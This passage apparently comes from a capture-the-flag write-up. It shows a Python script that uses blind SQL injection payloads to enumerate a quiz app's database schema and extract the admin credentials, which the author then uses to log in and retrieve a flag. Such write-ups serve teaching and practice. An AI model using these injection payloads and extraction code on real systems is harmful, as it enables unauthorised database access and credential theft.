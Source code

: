 ```
    s = requests.Session()
    s.proxies.update(proxies)
    s.verify = False
    get_quiz(s)

    # initial pocs
    # print(submit_try(s, "sdfasdfgdsfg' or if(1=1, 1, 0); -- "))
    # print(submit_try(s, "sdfasdfgdsfg' or if(1=0, 1, 0); -- "))

    # there is only 1 table schema of interest -> schema name: quiz
    # print(submit_try(s, "sdfasdfgdsfg' or (select count(schema_name) from information_schema.schemata where schema_name <> 'information_schema') = 1; -- "))
    # result = exploit(s, "select schema_name from information_schema.schemata where schema_name <> 'information_schema'")
    # print(result)

    # there are 2 tables in schema quiz: admin, quiz
    # print(submit_try(s, "sdfasdfgdsfg' or (select count(table_name) from information_schema.tables where table_schema = 'quiz') = 2; -- "))
    # result = exploit(s, "select table_name from information_schema.tables where table_schema = 'quiz' limit 1")
    # result = exploit(s, "select table_name from information_schema.tables where table_schema = 'quiz' limit 1 offset 1")

    # there are 3 columns in table admin: id, password, username
    # print(submit_try(s, "sdfasdfgdsfg' or (select count(column_name) from information_schema.columns where table_schema = 'quiz' and table_name = 'admin') = 3; -- "))
    # result = exploit(s, "select column_name from information_schema.columns where table_schema = 'quiz' and table_name = 'admin' limit 1")
    # result = exploit(s, "select column_name from information_schema.columns where table_schema = 'quiz' and table_name = 'admin' limit 1 offset 1")
    # result = exploit(s, "select column_name from information_schema.columns where table_schema = 'quiz' and table_name = 'admin' limit 1 offset 2")

    # there is 1 entry in table admin: id: 1, username: admin, password: S3creT_p4ssw0rd-$
    # print(submit_try(s, "sdfasdfgdsfg' or (select count(*) from admin) = 1; -- "))
    print(submit_try(s, "sdfasdfgdsfg' or (select id from admin) = 1; -- "))
    result = exploit(s, "select username from admin")
    print("Username: " + result)
    result = exploit(s, "select password from admin")
    print("Password: " + result)
```

After getting the credentials (which took quite a while), I was able to login with `admin:S3creT_p4ssw0rd-$` and get the flag, `flag{6e8a2df4-5b14-400f-a85a-08a260b59135}`:

{F1138948}

## Flag 10 - Signup Manager

**App description**: "You've made it this far! The grinch is recruiting for his army to ruin the holidays but they're very picky on who they let in!"
